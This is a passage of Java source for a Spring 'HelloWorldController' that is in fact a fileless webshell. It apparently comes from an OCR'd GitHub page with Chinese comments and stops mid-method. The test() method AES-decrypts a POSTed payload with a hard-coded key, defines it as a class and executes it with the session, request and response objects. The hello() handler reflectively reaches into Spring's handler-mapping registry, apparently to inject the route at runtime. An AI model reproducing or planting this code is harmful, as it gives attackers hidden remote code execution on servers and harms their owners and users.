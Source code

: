 ```java


@Controller
public class HelloWorldController extends ClassLoader {
    private final String uri = "/test";
    private final String k = "e45e329feb5d925b";

    public HelloWorldController(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);  // 调用父类的defineClass函数
    }

    public HelloWorldController() {
    }

    public HttpServletResponse test() throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidKeyException, IOException, BadPaddingException, IllegalBlockSizeException, IllegalAccessException, InstantiationException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        HttpSession session = request.getSession();
        if (request.getMethod().equals("POST")) {
            session.setAttribute("u", this.k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(this.k.getBytes(), "AES"));
            HelloWorldController helloWorldController = new HelloWorldController(ClassLoader.getSystemClassLoader());
            String base64String = request.getReader().readLine();
            byte[] bytesEncrypted = new sun.misc.BASE64Decoder().decodeBuffer(base64String);
            byte[] bytesDecrypted = c.doFinal(bytesEncrypted);
            Class newClass = helloWorldController.g(bytesDecrypted);
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);
            newClass.newInstance().equals(pageContext);
        }
        return response;
    }

    @RequestMapping(value = "/hello")
    public String hello(Model model) throws ClassNotFoundException, InvocationTargetException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 2. 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 判断url是否存在
        AbstractHandlerMethodMapping abstractHandlerMethodMapping = context.getBean(AbstractHandlerMethodMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        Object mappingRegistry = (Object) method.invoke(abstractHandlerMethodMapping);
        Field field = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry").getDeclaredField("urlLookup");
        field.setAccessible(true);
```